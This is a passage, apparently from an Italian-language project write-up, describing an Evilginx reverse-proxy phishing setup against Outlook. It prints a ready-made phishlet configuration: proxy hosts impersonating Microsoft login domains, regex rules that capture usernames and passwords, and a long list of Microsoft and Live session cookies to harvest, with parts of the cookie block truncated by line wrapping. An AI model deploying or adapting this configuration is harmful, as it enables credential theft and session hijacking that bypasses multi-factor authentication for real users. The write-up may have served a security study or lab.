 Per il progetto, si è preferito sfruttare Phishlet già pronti e disponibili in rete, come quello relativo ad Outlook.

Per impostazione predefinita, i phishlet si trovano nella directory `phishlets` nella root directory di Evilginx, che va specificata come parametro di avvio.

Phishlet utilizzato:
```yaml
name: 'Outlook'
author: '@simplerhacking'
min_ver: '3.0.0'
proxy_hosts:
  - { phish_sub: "login", orig_sub: "login", domain: "microsoftonline.com", session: true, is_landing: false, auto_filter: false }
  - { phish_sub: "www", orig_sub: "www", domain: "office.com", session: true, is_landing: false, auto_filter: false }
  - { phish_sub: "acc", orig_sub: "account", domain: "microsoft.com", session: true, is_landing: false, auto_filter: false }
  ...
  ... #per un totale di 17 proxy hosts
  ...
```

Per quanto rigaurda i parametri da rubare:
```
username:
    key: ""
    search: '"username":"([^"]*)'
    type: "json"
  password:
    key: ""
    search: '"password":"([^"]*)'
    type: "json"
```
e i cookie di sessione:
```
auth_tokens:                                                                                                                                          - domain: 'login.live.com'                                                                                                                            keys: ['uaid','MSPRequ','MSCC','MSPOK','__Host-MSAAUTHP','MSPPre','MSPCID','MSPAuth','MSPProf','NAP','ANON','WLSSC','SDIDC','JSHP','JSH','MSPSo>  - domain: 'live.com'                                                                                                                                  keys: ['ai_session','wlidperf','PPLState','WLSSC','RPSSecAuth','MSPCID','MSPAuth','MSPProf','NAP','ANON','.*,regexp']                             - domain: '.login.microsoftonline.com'                                                                                                                keys: ['ESTSAUTH','ESTSAUTHPERSISTENT','SignInStateCookie','esctx','ESTSSC','ESTSAUTHLIGHT','stsservicecookie','x-ms-gateway-slice', '.*,regexp>  - domain: 'login.microsoftonline.com'
    keys: ['ESTSSC','ESTSAUTHLIGHT','stsservicecookie','x-ms-gateway-slice', '.*,regexp']
  - domain: 'outlook.live.com'
    keys: ['DefaultAnchorMailbox', 'UC', 'OutlookSession', 'X-OWA-CANARY', '.*,regexp']
```
### 2. Reverse Proxy
